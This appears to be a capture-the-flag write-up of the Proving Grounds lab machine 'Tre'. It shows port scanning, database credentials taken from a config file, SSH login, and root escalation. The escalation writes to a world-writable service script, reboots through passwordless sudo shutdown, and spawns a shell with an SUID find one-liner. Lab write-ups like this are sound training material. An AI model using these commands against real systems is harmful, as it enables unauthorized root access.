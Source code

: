 ```yaml
---
categories: [Proving Grounds Play]
tags: [PrivEsc]
---
```


### Lets see the IP address →

```bash
IP : 192.168.249.142
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.142
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-16 14:29 IST
Nmap scan report for 192.168.249.142
Host is up (0.00028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
MAC Address: 00:0C:29:7F:7E:7D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ➡️

Lets see the webpage →

![Untitled](/Vulnhub-Files/img/Tre/Untitled.png)

Now after directory Traversal I found different sites or directories running different services so lets see the config files first for credentials →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Tre/Untitled%202.png)

```bash
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

Lets use this credentials here `adminer.php` file →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%203.png)

After entering that data I am in →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%204.png)

Now I got the username and password credentials so lets alter that data and use it to login into the shell with our put data into it →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%205.png)

Now lets modify it now →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%206.png)

Now lets use this to replace our password hashes and save that →

I tried to access the ssh login with hash password but no luck , then I tried its different looking realnames and tried it as a passwords and see I got in as tre user →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142     
tre@192.168.249.14 password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 12 23:56:00 2020 from 192.168.17.172
tre@tre:~$ whoami
tre
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
tre@tre:~$
```

Lets see `local.txt` file →

```bash
tre@tre:~$ ls -al
total 24
drwxr-xr-x 2 tre  tre  4096 Aug 23  2020 .
drwxr-xr-x 3 root root 4096 May 11  2020 ..
-rw-r--r-- 1 tre  tre   220 May 11  2020 .bash_logout
-rw-r--r-- 1 tre  tre  3526 May 11  2020 .bashrc
-rw-r--r-- 1 tre  tre    33 Jul 16 06:52 local.txt
-rw-r--r-- 1 tre  tre   807 May 11  2020 .profile
tre@tre:~$ cat local.txt
ec6b0276b5cbf898afe3bdb7c8da36b1
tre@tre:~$
```

Now while cheching proccess running I got this →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%207.png)

```bash
tre@tre:/tmp$ ls -al /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
tre@tre:/tmp$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
tre@tre:/tmp$
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
tre@tre:/tmp$
```

So after trying this `sudo shutdown` I got this →

```bash
tre@tre:/tmp$ sudo shutdown
Shutdown scheduled for Sun 2023-07-16 06:28:59 EDT, use 'shutdown -c' to cancel.
tre@tre:/tmp$
```

means that I execute my command on writing into `/usr/bin/check-system` file and when I execute the `sudo shutdown` command it will also execute as root user so lets do it —>

```bash
tre@tre:~$ echo 'chmod u+s /usr/bin/find'> /usr/bin/check-system
tre@tre:~$ sudo /sbin/shutdown -r now
tre@tre:~$ Connection to 192.168.249.142 closed by remote host.
Connection to 192.168.249.142 closed.
```

Now its time to restart the tre shell with ssh commands and lets check the `/usr/bin/find` command got SUIDs permissions or not →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142 -p 22    
tre@192.168.249.142s password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 16 06:35:35 2023 from 192.168.249.128
tre@tre:~$ ls -al /usr/bin/find
-rwsr-xr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
tre@tre:~$ find . -exec /bin/bash -p \; -quit
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
bash-5.0# cd /root
bash-5.0# ls -al
total 24
drwx------  2 root root 4096 Jul 16 06:52 .
drwxr-xr-x 18 root root 4096 Jul  7  2020 ..
-rw-------  1 root root    0 Sep  3  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jul 16 06:52 proof.txt
-rw-r--r--  1 root root   32 Aug 23  2020 root.txt
bash-5.0# cat proof.txt
71a1ba68d15d0ebde47c8b8090b065cf
bash-5.0# cat root.txt
Your flag is in another file...
bash-5.0#
```